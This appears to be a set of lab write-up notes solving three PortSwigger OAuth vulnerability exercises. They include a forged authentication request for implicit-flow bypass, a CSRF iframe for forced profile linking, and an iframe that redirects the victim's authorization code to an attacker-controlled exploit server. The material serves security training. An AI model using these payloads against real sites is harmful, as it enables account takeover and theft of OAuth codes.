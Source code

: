 # OAuth 2.0 authentication vulnerabilities

### >> 1. Authentication bypass via OAuth implicit flow
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password. To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net. You can log in with your own social media account using the following credentials: wiener:peter.`

Solution: 
- Change the payload to reflect the email address and username of Carlos
````http
POST /authenticate HTTP/1.1
Host: ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Cookie: session=AYlXg9S3SS3Yb7OjYfXNTGl8gFqgRvdt
Content-Length: 111
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"tY2Y8c57C6kHCy8X3BxnE4Hm3YoJyeOfMuhjlkFSQeb"}
````

### >> 2. Lab: Forced OAuth profile linking

- The request sends the authorization code to the /oauth-login `redirect_uri`
- There is no `state` parameter in the oauth, so it might be vulnerable to CSRF
````
https://oauth-ac4e1f2d1eaf72afc0ae569802f400e3.web-security-academy.net/auth?client_id=j2ba7uqsy1y35kw1wmd5o&redirect_uri=https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email
````

- Run the first login complete and then click to attach a social profile again, but now with interception on on burp
- Drop this request and copy the URL; perform logout
- Create a iframe object and delivery it to the victm using the Exploit server
````html
<iframe src="https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-linking?code=LTpkSauiz5Y_iiFdFkmU7jTvtADFySL_sOGqSWMgysp"></iframe>
````
- Click now in Login with Social Media and delete the Carlos user to complete the lab

### >> 3. Lab: OAuth account hijacking via redirect_uri


````html
<iframe src="https://oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net/auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
````

